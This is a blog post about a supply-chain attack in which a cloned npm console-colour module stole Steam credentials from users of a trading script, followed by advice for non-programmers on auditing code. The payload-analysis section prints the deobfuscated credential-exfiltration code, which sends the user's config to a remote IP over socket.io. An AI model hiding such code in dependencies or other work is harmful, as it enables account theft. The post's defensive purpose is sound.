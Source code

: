```yaml
---
title: "Code Auditing for Non-Programmers"
date: 2018-01-29T12:35:18Z
tags: ["programming"]
---
```


I can't believe this. Someone actually went and implemented the attack vector described in [an article posted earlier this month](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). **Tl;dr**: Malicious payload stored in an application dependency.

Around US$6,000 in TF2 items were stolen by a scammer who obtained Steam account credentials via a script they wrote. There was a window of over two weeks between release of the malicious script, and fraud being committed. This should have been avoided.

The scammer advertised his script on the backpack.tf forums, which immediately caused a bit of alarm based on what it would do: automatically overcut or undercut (i.e. list with the best price needed to always appear first) on our classifieds system. Generally, this behaviour is frowned upon because it is poor form. This user had previously been banned from several communities -- including this one -- for various reasons, and a bug in previous software he had written resulted in personal losses of thousands of dollars. In hindsight, it's clear he had a motive to do what was done, and inevitably capitalised on the laziness of his victims.

After harvesting enough user credentials, the scammer started to sign in to his victims' accounts to trade off entire inventory contents to various holding accounts. In one case, a victim's Marketplace.tf account was compromised via the Steam OpenID login (which could have been prevented by the victim, as Marketplace.tf has its own 2FA implementation). Their Marketplace.tf inventory contents were withdrawn, and a small cash payout was made to an anonymous email address.

It was when users became aware that their accounts had been hijacked that an investigation was begun. Victims were fast to conclude that they had all, at some point, ran this script. This prompted an audit of the source code. But the damage had already been done; the scammer had gone into hiding and did his best to cover his tracks.

Ultimately, the scammer's Steam accounts were all trade banned by Valve, so he did not receive much profit from dragging his reputation through the mud. However this does not mean the victims have been reimbursed, and they have had to learn a lesson or two about trusting scripts from strangers.

## Payload analysis

A thorough inspection of code in the repository showed no malicious functions; there were no dodgy HTTP requests or obfuscated `eval` bundles, and handled any credentials in a way that was obvious. Despite being poorly written, the software did what it was supposed to do. It was completely clean -- or was it? 

What was overlooked was a dependency -- a console color module with a malicious payload *just as described in the article*. This module was a line-for-line copy of the existing [better console](https://www.npmjs.com/package/better-console) module, except for when an info message is logged:

{{< highlight js >}}
  // Writes a message to the console with blue color
  info: function(){
    console.log.apply(this, arguments);		var a=['ZW1pdA==','bm9kZS1yc2E=','LS0tLS1CRUdJTiBSU...'
  }
{{< / highlight >}}

**NB**: This is massively truncated. The payload had a lot more whitespace to try and fool anyone not paying attention to the horizontal scrollbar.

Simply reformatting the one-liner revealed enough about what it did, without needing to run a deobfuscator.

{{< highlight js >}}
if (config != undefined) {
    var d = require('socket.io-client');
    var e = require(b('0x0'));
    var f = new e(b('0x1'));
    var g = JSON[b('0x2')](config);
    var h = f[b('0x3')](g, b('0x4'));
    try {
        var i = d['connect']('http://45.56.74.164:8080');
    } catch (j) {
    }
    i['on'](b('0x5'), () => {});
    i[b('0x6')]('chat\x20message', h);
    setTimeout(function () {
        i['disconnect']();
    }, 0x7d0);
}
{{< / highlight >}}

This snippet:

* Opens a websocket connection to the scammer's remote web server
* Sends the JSON-encoded contents of a global `config` variable, which contains the user's credentials -- Steam username, password, and two-factor authentication secrets (fwiw, Steam's 2FA is practically snake oil)
* Closes the connection after two seconds

He could have just left it deobfuscated and he would have still succeeded. It does not matter. It was hidden well enough that nobody bothered to look for it.

## Conclusions

I have a huge concern for users who are using arbitrarily-sourced scripts without knowing what they might do. The JavaScript ecosystem in particular is wonderful for hiding a payload in plain sight; a lackluster stdlib and the number of external dependencies that are needed to compensate for it, and applications that abuse variables available on the global scope. In this case, an exploit happened thanks to the inclusion of a simple vanity package that flew under the radar.

It's hard to educate users on how to make sure what they are using is legit. There is no guarantee that auto-updating software or its dependencies will stay clean. Saying "don't trust code ever" is just wrong, and users depending on someone else to tell them if software is legitimate or not is also wrong.

We should try to instruct users on how to audit the code they're about to run -- without necessarily teaching them to program.

## Identifying malicious code

First things first: Do you trust the person you're acquiring code from? At any point, despite originally releasing genuine software, they may subtly add a new, malicious feature. You're not going to check the source code after every update, are you?

Regardless, you should know how to identify malicious code without necessarily being able to read it, whether you are a programmer or not. These tips should help you identify suspect code in common scripting languages:

1. **Look for blatantly obfuscated code.** For some reason, malicious actors *love* to obfuscate their payloads when it's not necessary. I'm not sure why. If you see random strings of characters and anonymous variable names in the middle of otherwise nicely-written code, it should be pretty obvious there's something to hide.
  * **JavaScript**: Search for uses of `eval`. The use of `eval` is a sure sign that code is vulnerable to exploitation, intentionally or not. It is either bad code, or *bad* code. Used by attackers, this is used to pack and run malicious code. Used by novice programmers, this is used to write bots that answer maths questions and inevitably get hacked to death.
  * Do keep an eye on the horizontal scrollbar, or enable soft wrapping in your text editor to reveal hidden snippets.
  
2. **Look for shell command calls.** Like `eval`, *unnecessary* execution of shell commands may be bad or malicious. However, they may have a valid use case. Great care should be taken when using shell commands in code, as to not allow arbitrary execution of commands.
  * **JavaScript**: there are *many* ways to execute a shell command depending on the runtime environment, but you're probably running your scripts with Node.js. Look for `child_process` and see how this is being used.   
  * **Python**: look for usages of `os.system`, `os.popen` or the `subprocess` module. `os.*` calls should be given more attention; these commands are not cleaned and may be vulnerable to command injection if variable interpolation is used.
  * **Python**: if using Windows, also look for usages of the `win32api` module to see how this is being used.  
  
3. **Check the dependencies.** As witnessed, dependencies are a great way to hide malicious code. If you don't know what something is, take a look at it. Then scrutinise it as you would for the rest of the source code using the above steps.
  * **JavaScript**: Software written in JavaScript and various compile-to-JS languages often use the centralised npm repository. Dependencies are listed in the included `package.json` file, and package details can be checked at `https://www.npmjs.com/package/[package-name]`. If a package only has a few downloads, it should be examined thoroughly. **npm is largely unmoderated: anyone can submit a package, and anyone can pretend to be someone else**. It takes mere minutes to plagiarise someone else's package to make a copy with a similar name, so disregard any repository links, homepage links, or how pretty it looks.
  * When checking dependencies, disregard what code you see in the public repository. This won't necessarily be the same code you will download from a package manager for various reasons. **Inspect the code that was actually downloaded through the package manager.**
 
Ultimately, the number of people using a piece of software will correlate with the number of people closely inspecting it. Be careful of what you are running, especially if you are part of a niche community that does not necessarily have a wide developer scene.

Stay safe out there.
